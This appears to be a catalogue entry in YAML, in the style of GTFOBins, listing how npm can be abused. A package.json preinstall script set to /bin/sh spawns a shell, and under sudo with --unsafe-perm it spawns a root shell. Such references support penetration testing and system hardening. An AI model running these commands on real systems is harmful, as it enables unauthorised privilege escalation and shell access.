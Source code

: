 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
        npm -C $TF i
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
        sudo npm -C $TF --unsafe-perm i
---
```

